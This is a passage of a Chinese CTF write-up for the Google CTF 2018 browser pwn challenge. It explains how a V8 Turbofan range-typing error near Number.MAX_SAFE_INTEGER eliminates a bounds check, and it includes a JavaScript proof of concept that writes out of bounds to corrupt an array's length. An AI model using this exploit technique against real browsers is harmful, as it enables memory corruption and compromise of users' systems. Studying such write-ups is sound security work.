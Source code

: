 输出结果为：

```
4
0
6
```

Typer阶段：

推测x的范围为（Number.MAX_SAFE_INTEGER+1， Number.MAX_SAFE_INTEGER+5），即Range(9007199254740992, 9007199254740996)，未优化前，tmp1 = x + 1 + 1；但因为9007199254740992 + 1 + 1=9007199254740992 ，9007199254740996 + 1 + 1=9007199254740996 ，所以tmp1 的范围也是（9007199254740994，007199254740996），造成最后idx的范围为（0，4）。

![](..\image\2020-08-12-google-ctf-2018-browser-pwn分析\6.png)

但经过优化后，x + 1 + 1 => x+2，而 9007199254740992 + 2=9007199254740994，9007199254740996+2=9007199254740998，导致tmp1的范围为（9007199254740994，007199254740998），最后idx的范围为（2，6）。而Turbofan 认为idx范围为（0，4），不会访问越界，所以消除了后面的CheckBound，导致可以越界读写。

## 漏洞利用

利用越界读写修改float_array的length，利用old space中浮点数的element在jsArray前面的特性，修改自身的length，而不需要在后面布一个float_array（调试中在后面放置float对象，偏移也不固定）。

这里float_array[length-1] 离 float_array.length的位置为0x20, 即差4个数据的大小，而之前poc求出，Turbofan认为idx=4，实际求出idx=6，所以利用乘法将idx的范围扩大，使之正好覆盖到float_array.length。求出6x - 4x=4 => x=2.

所以最后越界读写的Poc如下：

```javascript
var obj = [];
var data_buf;
var float_array;

function foo(flag)
{
	float_array = [1.0,1.1,1.2,1.3,1.4,1.5,1.6,1.7,1.8];
	let x = (flag == "foo") ? Number.MAX_SAFE_INTEGER+5:Number.MAX_SAFE_INTEGER+1;
	let tmp1 = x+1+1;
	let idx = tmp1 - (Number.MAX_SAFE_INTEGER+1);
	idx = idx * 2;                                           // <-----------------------
	float_array[idx] = 1.74512933848984e-310;
}
foo("foo");
for(let i=0; i<10000; i++){
	foo("");
}

foo("foo");
console.log("float_array length: 0x"+hex(float_array.length));
```